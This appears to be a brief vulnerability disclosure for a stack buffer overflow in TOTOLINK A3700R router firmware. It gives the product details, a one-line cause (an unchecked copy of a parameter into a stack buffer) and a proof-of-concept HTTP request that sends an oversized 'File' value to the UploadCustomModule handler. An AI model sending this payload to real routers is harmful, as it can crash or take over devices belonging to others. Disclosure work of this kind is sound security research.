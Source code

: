 # TOTOLINK A3700R V9.1.2u.6165_20211012 function 	  stack overflow

### Product Information

Product: TOTOLINK A3700R  Firmware Version: V9.1.2u.6165_20211012  

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

Parameter `v7` is copied to buffer `v14` without checking the length

![image-20240613101904948](image-20240613101904948.png)

Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.



### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 53

Origin: http://127.0.0.1

Connection: keep-alive

Referer: http://127.0.0.1/basic/index.html

Cookie: SESSION_ID=2:1718246395:2



{"topicurl":"UploadCustomModule",

"File":"a"*204800}
```

![image-20240613104556335](./image-20240613104556335.png)
